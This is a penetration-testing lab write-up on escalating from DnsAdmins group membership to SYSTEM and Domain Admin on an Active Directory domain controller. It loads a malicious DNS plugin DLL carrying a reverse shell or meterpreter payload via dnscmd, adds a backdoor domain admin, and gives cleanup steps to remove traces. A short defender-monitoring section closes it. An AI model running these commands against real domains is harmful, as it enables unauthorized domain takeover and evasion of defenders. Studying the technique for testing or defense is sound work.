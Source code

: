 # From DnsAdmins to SYSTEM to Domain Compromise

In this lab I'm trying to get code execution with `SYSTEM` level privileges on a DC that runs a DNS service as originally researched by Shay Ber [here](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83).

The attack relies on a [DLL injection](../../offensive-security/code-injection-process-injection/dll-injection.md) into the dns service running as SYSTEM on the DNS server which most of the time is on a Domain Contoller.

## Execution

For the attack to work, we need to have compromised a user that belongs to a `DnsAdmins` group on a domain. Luckily, our user `spotless` already belongs to the said group:

```csharp
 net user spotless /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-16-55-52.png)

### Building the DLL

As mentioned earlier, we need to build a DNS plugin DLL that we will be injecting into a dns.exe process on a victim DNS server \(DC\). Below is a screenshot of the DLL exported functions that are expected by the dns.exe binary when loading a plugin DLL. I have also added a simple system command to invoke a netcat reverse shell once the plugin is initialized and code is executed. 

I then tested the function with rundll32 as shown below, which returned a reverse shell to my attacking machine - code gets executed, shell gets spawned:

```csharp
rundll32.exe .\dnsprivesc.dll,DnsPluginInitialize
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-17-30-47.png)

### Abuse DNS with dnscmd

Now that we have the DLL and we checked that it is working, we can ask the victim `DC01` to load our malicious DLL \(from the victim controlled network share on host 10.0.0.2\) next time the service starts \(or when the attacker restarts it\):

{% code title="attacker@victim.memberOfDnsAdmins" %}
```csharp
dnscmd dc01 /config /serverlevelplugindll \\10.0.0.2\tools\dns-priv\dnsprivesc.dll
```
{% endcode %}

The below looks promising and suggests the request to load our malicious DLL was successful:

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-55-59.png)

{% hint style="info" %}
`dnscmd` is a windows utility that allows people with `DnsAdmins` privileges manage the DNS server. The utility can be installed by adding `DNS Server Tools` to your system as shown in the below screengrab.
{% endhint %}

![](../../.gitbook/assets/screenshot-from-2018-11-11-17-04-48.png)

The below command on the victim further suggests that our request was successful and the registry value `ServerLevelPluginDll` points to our malicious DLL:

```csharp
# note that as attacker you cannot check this on a DC since you do not have yet access to the system. Because this is a lab environment, I am checking the registry from the DC itself.
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-51-21.png)

### Getting code execution with NT\SYSTEM

Now the next time dns service starts, our malicious DLL should be loaded to the dns.exe process and a reverse shell should be sent back to our attacking system, so let's go and restart the DNS service:

{% code title="attacker@victim" %}
```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```
{% endcode %}

By this point, I should have received a reverse shell, but unfortunately, I did not.

After checking the DNS logs on the `DC01` I saw the below error, suggesting there was something off with my DLL:

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-45-51.png)

I tried exporting functions with C++ name mangling and without and although the DLL exports seemed to be OK per CFF Explorer, I was still not able to make the DC load my malicious DLL successfully without corrupting the dns service:

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-46-09.png)

{% hint style="warning" %}
Although I was not able to correctly inject the DLL without crashing the dns service in my lab environment, I still decided to publish these notes, in case they will be stubmled upon by a reader who had successfully injected a custom DLL and who would like to share their thoughts on what I am overlooking as this would be much appreciated.
{% endhint %}

Since I could not get my malicious DLL injected into the dns.exe successfully, I thought of trying to inject the meterpreter payload using the same technique.

It can be observed, that the DLL with meterpreter payloads gets ineed loaded and we receive a call back attempt from meterpreter, but since the DLL does not conform to the required format \(does not have required exported functions\), the session dies immediately \(or this is what I thought initially - as you will later see, it turns out I was simply using a wrong listener\):

![](../../.gitbook/assets/screenshot-from-2018-11-11-22-33-58.png)

Since the above suggests that the the DLL code still got executed, we can try asking the DLL to execute the following on the DC:

```csharp
net group 'domain admins' spotless /add /domain
```

```text
dnsprivesc.dll
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-22-55-35.png)

Before restarting the DNS service and getting our malicious DLL executed, let's make sure our attacking user `spotless` is not in `Domain Admins` group:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-03-40.png)

Now if we restart the DNS service which will load our `addDA.dll`, we see that the user `spotless` is now a member of the `Domain Admins`:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-03-52.png)

{% hint style="danger" %}
Warning: at this time the DNS service is probably crashed, so be warned - using DLLs that do not conform to the plugin requirements is not stealthy and this type of activity probably will get picked up by defenders really quickly unless you can restore the DNS service immediately.
{% endhint %}

Below confirms that the dns service is down, however we can still access the DC C$ share by DC's IP from our spotless user, meaning that we have escalated privileges to DA:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-09-23.png)

One could think about scripting/automating the after-attack cleanup and the DNS service restoration and include the required code in the same malicious DLL that creates a backdoor user in the first place:

{% code title="attacker@victim" %}
```csharp
reg query \\10.0.0.6\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
reg delete \\10.0.0.6\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
sc.exe \\10.0.0.6 stop dns
sc.exe \\10.0.0.6 start dns
//remove any other traces/logs
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-21-55.png)

Once the DNS service is restored, we can now access the C$ using DC01 computer name:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-24-44.png)

### Bonus Reminder

It turns out that the reason the meterpreter payload failed because of a classic mistake of not using the right listener for staged/non-staged payloads - always double check your payloads and make sure that the listeners are able to handle the callbacks.

Once I set up the listener correctly, the meterpreter shell came back as expected - note that the dns.exe service still gets corrupted.

![](../../.gitbook/assets/peek-2018-11-12-21-58.gif)

## Observations

As a defender, one should considering monitoring for suspicious child processes \(rundll32, powershell, cmd, net, etc.\) spawned by the dns.exe on DCs:

![](../../.gitbook/assets/screenshot-from-2018-11-12-22-09-43.png)

Also, you may want to consider monitoring `HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters` value `ServerLevelPluginDll`, especially if it begins with string `\\` in the data field.

## References

{% embed url="https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83" %}

{% embed url="http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html" %}

{% embed url="https://github.com/dim0x69/dns-exe-persistance" %}

